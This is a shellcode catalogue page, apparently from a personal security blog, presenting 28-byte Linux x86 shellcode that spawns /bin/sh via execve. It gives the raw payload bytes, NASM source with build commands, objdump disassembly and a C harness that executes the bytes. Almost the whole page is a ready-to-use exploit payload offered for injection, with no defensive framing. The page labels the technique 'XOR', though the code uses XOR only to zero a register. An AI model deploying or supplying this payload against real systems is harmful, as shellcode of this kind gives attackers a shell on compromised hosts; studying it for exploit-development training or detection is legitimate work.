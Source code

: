 ```yaml
---
title:  Linux/86 execve -> Stack,XOR
date: 2022-06-03 05:49:33 +0800
categories: [Shellcodes, Linux]
tags: []  
---
```


# Info

Description: `Shellcode to spawn /bin/sh`

Platform: `Linux`

Arch: `x86`

Size: `28 bytes`

Technique: `Stack`, `XOR`

Shellcode : `\x31\xc0\x50\x8d\x14\x24\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80`

# Execution

![shellcode](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/shellcodes/2022-02-01-l86hellosstackxor.png)

# Assembly-nasm

`nasm -f elf32 -o shellcode.o shellcode.asm`

`ld -o shellcode shellcode.o`

```nasm

global _start

section .text

_start:

    xor eax, eax

    push eax
    lea edx, [esp]

    ;//bin/sh
    
    push 0x68732f6e
    push 0x69622f2f
    lea ebx, [esp]

    push eax
    push ebx
    lea ecx, [esp]

    mov al,0xb
    int 0x80

```
# objdump

`objdump -d ./shellcode -M intel`

```bash

./shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       31 c0                   xor    eax,eax
 8048062:       50                      push   eax
 8048063:       8d 14 24                lea    edx,[esp]
 8048066:       68 6e 2f 73 68          push   0x68732f6e
 804806b:       68 2f 2f 62 69          push   0x69622f2f
 8048070:       8d 1c 24                lea    ebx,[esp]
 8048073:       50                      push   eax
 8048074:       53                      push   ebx
 8048075:       8d 0c 24                lea    ecx,[esp]
 8048078:       b0 0b                   mov    al,0xb
 804807a:       cd 80                   int    0x80


```

# C

`gcc -o shellcode shellcode.c`

```c

#include <stdio.h>
#include <string.h>

char *shellcode =  "\x31\xc0\x50\x8d\x14\x24\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80";
int main(void)
{
        fprintf(stdout,"Length: %d\n",strlen(shellcode));
        (*(void(*)()) shellcode)();
        return 0;
}

```

